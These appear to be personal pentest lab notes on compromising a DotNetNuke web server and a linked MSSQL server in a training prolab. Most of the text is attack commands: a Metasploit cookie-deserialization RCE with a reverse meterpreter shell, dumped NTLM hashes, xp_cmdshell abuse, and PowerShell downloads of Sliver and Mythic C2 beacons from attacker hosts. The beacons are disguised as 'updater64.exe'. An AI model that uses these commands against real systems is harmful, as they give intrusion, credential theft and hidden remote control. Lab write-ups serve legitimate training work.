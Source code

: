Regain Access:
```

```

Nmap scan below. Looked like a promising first hit.
```
Nmap scan report for 10.10.110.10
Host is up (0.049s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE  SERVICE VERSION
80/tcp    open   http    Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 30 disallowed entries (15 shown)
| /admin/ /App_Browsers/ /App_Code/ /App_Data/ 
| /App_GlobalResources/ /bin/ /Components/ /Config/ /contest/ /controls/ 
|_/DesktopModules/ /Documentation/ /HttpModules/ /images/ /Install/
|_http-favicon: Unknown favicon MD5: 2DE6897008EB657D2EC770FE5B909439
|_http-title: Home
443/tcp   closed https
3391/tcp  closed savant
49443/tcp closed unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



Website is running DNN (dotnetnuke)
![[Pasted image 20250501120838.png]]

Potentially version 7.0
![[Pasted image 20250501121056.png]]

Registering a user tells us that the site admin has to verify and view our request.
![[Pasted image 20250501121310.png]]

Weak version of DNN, maybe google and look for an RCE?
No luck with a dnn cookie deserialization rce
![[Pasted image 20250501122524.png]]

It looks vulnerable, helpful blogpost?

https://pentest-tools.com/blog/exploit-dotnetnuke-cookie-deserialization

Need to change the payload to  

```bash
msfconsole -q
use windows/http/dnn_cookie_deserialization_rce
set lhost tun0
set rhosts 10.10.110.10
set payload payload/windows/meterpreter/reverse_http
# In meterpreter, only privesc if you need to
getsystem
# Might need to repeat it a second time
getsystem
# Use privileged meterpreter to run privileged beacon
# Upload beacon
meterpreter > upload /home/kali/work/prolab/sliver/httpbeacon443.exe C:\\Windows\\Tasks\\handler.exe
meterpreter > load powershell
meterpreter > powershell_execute "Start-Process C:\Windows\Tasks\fun.exe"
```
We should be aware of Firewalls. Reverse http is very good at getting around these.
We can use meterpreter getsystem to privesc, and then hashdump to get some hashes,


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:4e63f2ecad6ac1c809564e26ea764999:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

We'll find the first flag in the DotNetNukedirectory

Checking the running processes, we see some SQL stuff running. We can use nmap, netexec, bloodhound to figure out the names of the servers.

Using netexec, we can check for anything in the domain running MSSQL
```bash
netexec mssql 10.9.20.13/24 -u '' -p ''
```
![[Pasted image 20250528223400.png]]

Through the binaries, it's sort of implied that we have permissions to this SQL server. 

We need to use sqlcmd
https://github.com/microsoft/go-sqlcmd/releases/tag/v1.8.2
```bash
wget https://github.com/microsoft/go-sqlcmd/releases/download/v1.8.2/sqlcmd-windows-amd64.zip
unzip sqlcmd-windows-amd64.zip
```

We can upload this using our Mythic C2.

```mythic
upload
```

And then run it. We're using the shell command in Mythic C2, and then passing everything after that as an arguement
```
shell C:\windows\tasks\sqlcmd.exe -S tcp:10.9.20.11,1433 -Q "select @@ version;"
```
It doesn't seem to like the name 'sqlcmd.exe', so we'll rename it.
![[Pasted image 20250528224341.png]]

```
shell C:\windows\tasks\update64.exe -S tcp:10.9.20.11,1433 -Q "select @@ version;"
```

That doesn't work. It turns out that it's actually the cywebdw MSSQL server that we can authenticate to. This makes sense, because we're on a web server. Also note the domain at the end (m3c.local).
```
shell C:\windows\tasks\update64.exe -S CYWEBDW -Q "EXECUTE('SELECT name FROM master.dbo.sysdatabases') AT[m3sqlw.m3c.local];"
```

![[Pasted image 20250528225500.png]]

We can try enabling XP_CMDShell

Ask chatgpt to fix the error and make it workhen the next command
```bash

# Enable xp_cmdshell
shell C:\Windows\Tasks\sql.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''') AT[m3sqlw.m3c.local];"

shell C:\Windows\Tasks\sql.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''; RECONFIGURE;') AT[m3sqlw.m3c.local];"

shell C:\Windows\Tasks\sql.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''xp_cmdshell'', ''1''') AT[m3sqlw.m3c.local];"

shell C:\Windows\Tasks\sql.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''; RECONFIGURE;') AT[m3sqlw.m3c.local];"

# Run Whoami
shell C:\Windows\Tasks\sql.exe -S 10.9.20.13 -Q "EXECUTE('xp_cmdshell ''whoami''') AT[m3sqlw.m3c.local];"

# Download the Beacon
shell C:\Windows\Tasks\sql.exe -E -S CYWEBDW -Q "EXECUTE('EXEC xp_cmdshell ''powershell -NoP -NonI -c Invoke-WebRequest -Uri http://10.10.16.157:139/updater64.exe -OutFile c:\windows\tasks\updater64.exe''') AT [m3sqlw.m3c.local];"
```

After a LOT of trouble, we learn that only 80 and 443 are working for traffic. We have to shut down Ligolo to download the file.
```bash
# Download the beacon
shell C:\windows\tasks\update64.exe -E -S CYWEBDW -Q "EXECUTE('EXEC xp_cmdshell ''powershell -NoP -NonI -c Invoke-WebRequest -Uri http://10.10.16.157:443/taskhandler64.exe -OutFile c:\windows\tasks\taskhandler64.exe''') AT [m3sqlw.m3c.local];"

# Run it
shell C:\windows\tasks\update64.exe -E -S CYWEBDW -Q "EXECUTE('EXEC xp_cmdshell ''c:\windows\tasks\taskhandler64.exe''') AT [m3sqlw.m3c.local];"
```

## Sliver Commands
```bash
# Upload sqlcmd
sliver > upload /home/kali/work/prolab/web/sqlcmd.exe C:\\ProgramData\\updater64.exe

# Enable XP_CMDshell
sliver > execute C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''') AT[m3sqlw.m3c.local];"

# Upload SQL
upload /home/kali/work/prolab/web/sqlcmd.exe C:\\Windows\\Tasks\\sql.exe
# Spawn an interactive shell
sliver > shell

shell > C:\Windows\Tasks\sql.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''') AT[m3sqlw.m3c.local];"
shell > C:\Windows\Tasks\sql.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''; RECONFIGURE;') AT[m3sqlw.m3c.local];"
shell > C:\Windows\Tasks\sql.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''xp_cmdshell'', ''1''') AT[m3sqlw.m3c.local];"
shell > C:\Windows\Tasks\sql.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''; RECONFIGURE;') AT[m3sqlw.m3c.local];"

# Run Whoami
shell > C:\Windows\Tasks\sql.exe -S 10.9.20.13 -Q "EXECUTE('xp_cmdshell ''whoami''') AT[m3sqlw.m3c.local];"

# Generate beacon shellcode
sliver > generate beacon --arch amd64 --os windows --http 10.10.15.250:80 --format shellcode --evasion --timeout 300 --seconds 5 --jitter 1

# Use powershell web loader

# Download Beacon
shell > C:\Windows\Tasks\sql.exe -E -S CYWEBDW -Q "EXECUTE('EXEC xp_cmdshell ''powershell -NoP -NonI -c Invoke-WebRequest -Uri http://10.10.15.250:443/sqlbeacon.exe -OutFile C:\ProgramData\updater64.exe''') AT [m3sqlw.m3c.local];"

#
# Check Directory
C:\Windows\Tasks\sql.exe -S 10.9.20.13 -Q "EXECUTE('xp_cmdshell ''dir C:\ProgramData''') AT[m3sqlw.m3c.local];"

# Execute beacon
shell > C:\Windows\Tasks\sql.exe -S 10.9.20.13 -Q "EXECUTE('xp_cmdshell ''C:\ProgramData\updater64.exe''') AT[m3sqlw.m3c.local];"

# Execute-Assembly
# Dump hashes
```


## Profiles
We can use profiles to make our lives a lot easier, and to save major configuration settings.
Let's say we wanted to set a profile, and generate beacons from it.
```

```